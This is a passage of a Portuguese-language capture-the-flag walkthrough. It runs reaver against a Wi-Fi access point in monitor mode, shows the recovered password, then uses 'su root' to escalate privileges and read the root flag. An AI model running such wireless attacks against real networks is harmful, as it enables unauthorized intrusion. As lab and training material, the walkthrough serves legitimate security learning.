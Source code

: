 ```shell
```

note que o **mon0** está no modo monitoramento.

Então iremos usar nossa interface como **mon0** e o **bssid** como **02:00:00:00:00:00**.

```shell
reaver -i mon0 -b 02:00:00:00:00:00
```

resultado da exploração

![Resultado do exploit](image-6.png)

note que temos uma senha: **WhatIsRealAnDWhAtIsNot51121!**

então iremos agora tentar escalação de privilégio com essa senha, para isso:

```shell
su root
```

![Escalação de privilégio](image-7.png)

agora iremos no arquivo raiz do root para capturar a última flag.

```shell
cd
```

![Flag usuário root](image-8.png)

Por fim, use o cat para ver o conteúdo do arquivo **root.txt**.
